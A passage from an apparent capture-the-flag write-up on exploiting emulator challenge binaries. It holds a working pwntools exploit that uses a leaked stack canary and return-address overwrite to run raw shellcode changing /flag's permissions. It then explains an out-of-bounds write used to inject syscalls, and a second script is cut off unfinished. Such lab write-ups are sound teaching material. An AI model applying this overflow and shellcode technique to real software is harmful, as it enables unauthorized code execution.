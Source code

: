 ```python
    shellcode_addr = stack_leak - 0xb0
    print(f'Shellcode Addr:{hex(shellcode_addr)} Canary:{hex(canary)}')

    # Cause termination of the interpreter loop by setting mem[1029] to 0xff.
    # Pad, and overwrite the return address back to the stack
    shellcode = b"\x48\xBB\x2F\x66\x6C\x61\x67\x00\x00\x00\x53\x48\xC7\xC0\x5A\x00\x00\x00\x48\x89\xE7\x48\xC7\xC6\x77\x07\x00\x00\x0F\x05"
    buf_2 = b'\x41' * 0x15 + b'\xff' + b'\x42' * 2 + struct.pack('<Q', canary) * 2 + struct.pack('<Q', shellcode_addr)
    payload = buf_2 + b'\x90' * (write_count - len(buf_2) - len(shellcode)) + shellcode 
    p.send(payload)

    p.interactive()

exploit()
```

## Challenge 9

Now we can perform the `open` syscall, as well as `read_mem` and `write`. However, we’re limited to only one syscall. \
We can bypass this limitation by overflowing the memory that stores the value of the syscall count. 

Indeed, within `main`’s frame, it is stored at `rbp - 0x418`, which is a stack address we can easily overflow. We would set it to some negative value, as the check is signed. \
However, this approach won’t work - as the check is performed on the yancode shellcode before anything is even executed. 

There’s a vuln within `read_memory` handler. We can write up to `0xff` bytes into the data region, which resides at `mem[0, 255]`. We can also choose an offset to start writing from, which can be up to `0xff` too. \
Therefore, we can overflow from the data segment towards the code segment, hence injecting syscalls of our wish. 

```python
from dataclasses import dataclass
from pwn import *
import os, sys
import struct


BINARY = '/challenge/toddlerone_level9.0'
GDB_SCRIPT= '''
b *interpret_sys+0x95

c

'''
DEBUG_FILE_PATH = 'my_payload.txt'

@dataclass
class Regs:
    a = b'\x02'
    b = b'\x20'
    c = b'\x08'
    d = b'\x01'
    s = b'\x40'
    i = b'\x04'
    f = b'\x10'


@dataclass
class Opcodes:
    STM = b''
```